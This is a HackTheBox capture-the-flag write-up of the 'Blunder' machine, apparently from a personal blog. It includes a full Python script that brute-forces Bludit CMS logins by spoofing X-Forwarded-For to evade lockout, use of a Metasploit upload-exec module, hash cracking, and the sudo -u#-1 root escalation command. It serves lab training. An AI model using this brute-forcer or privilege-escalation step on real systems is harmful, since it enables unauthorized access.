 ```yaml
---
title: Blunder Writeup - Machine
author: Sujit Suryawanshi
date: 2020-07-29 14:10:00 +0800
categories: [Writeup, HackTheBox]
tags: [hackthebox, htb, blunder]
---
```


<h2 data-toc-skip>Writeup of Blunder Machine (HackTheBox)</h2>


![Desktop View]({{ "/assets/img/htb-machines/blunder-main.png" | relative_url }})

Blunder machine released on 30 May 2020 on HackTheBox platform and created by [egotisticalSW](https://www.hackthebox.eu/home/users/profile/94858).
It's nice machine which hosted CMS named Bludit. So let's move forward and p4wn this awesome box.

---

<h3 data-toc-skip>Starting with Nmap</h3>

#### sudo nmap -sV -sC -T4 -p- 10.10.10.191

![Desktop View]({{ "/assets/img/htb-machines/blunder-nmap.png" | relative_url }})

We used -sC for Default Script, -sV Service Version Scan, -p- for All Ports and -T4 for Timing. As you can see there are two ports open that is port 21 and 80. Port 21 was ftp but closed and port 80 has hosted webserver which has Apache httpd 2.4.41 also the OS was Ubuntu, so we moved towards port 80 for further enumeration.



After opening the the website in browser we found that it was using Bludit CMS.

![Desktop View]({{ "/assets/img/htb-machines/blunder-cms.png" | relative_url }})

Continuing to enumeration we started fuzzing the web directory using ffuf tool.


![Desktop View]({{ "/assets/img/htb-machines/blunder-ffuf.png" | relative_url }})

After doing some web fuzzing, We found admin panel of Bludit CMS hosted on url <http://10.10.10.191/admin/>

![Desktop View]({{ "/assets/img/htb-machines/blunder-cms-admin.png" | relative_url }})

As we don't know the username and password of this admin panel, We continued fuzzing on website using ffuf and some common extensions like php, txt etc.

![Desktop View]({{ "/assets/img/htb-machines/blunder-ffuf-1.png" | relative_url }})

After some fuzzing we got one todo.txt file hosted on webserver which has one note "Inform fergus that the new blog needs images - PENDING"

So here we got the one of the user's username that is "fergus"

We found the user but we don't know the password so, For password we used one tool called "CeWl".

So basically what this tool does, It generates wordlist from any url/webpage.
In our case, We used this tool on webpase and generated wordlist.

cewl http://10.10.10.191/

![Desktop View]({{ "/assets/img/htb-machines/blunder-cewl.png" | relative_url }})

Nice, CeWl generated more than 300 passwords.
Now we have username and wordlist of passwords, Let's move forward.

After doing some google about Bludit CMS, We found that Bludit CMS was vulnerable for password bruteforce attack.

Checking one [issue](https://github.com/bludit/bludit/pull/1090) on Github about Bludit, We got one python script to bruteforce the password.

To bruteforce the password We needed to modify the script.

```python
#!/usr/bin/env python3
import re
import requests
#from future import print_function

def open_ressources(file_path):
    return [item.replace("\n", "") for item in open(file_path).readlines()]

host = 'http://10.10.10.191'
login_url = host + '/admin/login'
username = 'fergus'
wordlist = open_ressources('/home/sujit/Desktop/HTB/Blunder/pass.txt')

for password in wordlist:
    session = requests.Session()
    login_page = session.get(login_url)
    csrf_token = re.search('input.+?name="tokenCSRF".+?value="(.+?)"', login_page.text).group(1)

    print('[*] Trying: {p}'.format(p = password))

    headers = {
        'X-Forwarded-For': password,
        'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3865.90 Safari/537.36',
        'Referer': login_url
    }

    data = {
        'tokenCSRF': csrf_token,
        'username': username,
        'password': password,
        'save': ''
    }

    login_result = session.post(login_url, headers = headers, data = data, allow_redirects = False)

    if 'location' in login_result.headers:
        if '/admin/dashboard' in login_result.headers['location']:
            print()
            print('SUCCESS: Password found!')
            print('Use {u}:{p} to login.'.format(u = username, p = password))
            print()
            break

```

In above code, I used pass.txt file as wordlist and username as "fergus"

![Desktop View]({{ "/assets/img/htb-machines/blunder-bruteforce-1.png" | relative_url }})

After bruteforce, We got the password of user "fergus" as "RolandDeschain"

![Desktop View]({{ "/assets/img/htb-machines/blunder-bruteforce-2.png" | relative_url }})

Now we have both username and password.
Let's login with username as “fergus” and password as  “RolandDeschain”

![Desktop View]({{ "/assets/img/htb-machines/blunder-bludit-login.png" | relative_url }})

We successfully logged in into Bludit CMS.
After some Google, I found that there is file upload vulnerability available for Bludit CMS and also there is metasploit module available for the same.

Name of the Metasploit module : linux/http/bludit_upload_images_exec

Lets fire up metasploit and use the above exploit.

We need to set some required data (option) for this exploit.

![Desktop View]({{ "/assets/img/htb-machines/blunder-metasploit.png" | relative_url }})

Here I set BLUIDITPASS, BLUIDITUSER, RHOSTS, LHOST options respectively to exploit the vulnerability.

After setting up options I ran exploit command to run the exploit and voila!!!, We got initial shell..

![Desktop View]({{ "/assets/img/htb-machines/blunder-metasploit-1.png" | relative_url }})

Now let's start enumeration to get user.

While doing enumeration, I checked some documentation of Bludit CMS in which I found that the CMS had database folder.

![Desktop View]({{ "/assets/img/htb-machines/blunder-cms-structure.png" | relative_url }})

In this database folder I got one PHP file named users.php which contains password hash of another user “hugo”

![Desktop View]({{ "/assets/img/htb-machines/blunder-password-hash.png" | relative_url }})

After using online password cracker, I got "Password120" as password for user “hugo”

![Desktop View]({{ "/assets/img/htb-machines/blunder-password-hash-1.png" | relative_url }})

After login using above password I was able to get user successfully.

![Desktop View]({{ "/assets/img/htb-machines/blunder-user.png" | relative_url }})

Here we got user.txt.
Now it's time for Privilage Escalation.

I ran sudo -l to list out what is allowed to run as sudo without password

![Desktop View]({{ "/assets/img/htb-machines/blunder-privesc.png" | relative_url }})

Here the user was allowed to run /bin/bash without password.

I used sudo -u#-1 bash command to get into root.

The above command will trigger -1 user which is not there so we will get a root shell directly.

You'll get more information about this PrivEsc vulnerability [here](https://www.sudo.ws/alerts/minus_1_uid.html).

![Desktop View]({{ "/assets/img/htb-machines/blunder-root.png" | relative_url }})

And here we rooted Blunder successfully.

Thanks for reading this writeup and all suggestions are welcome.
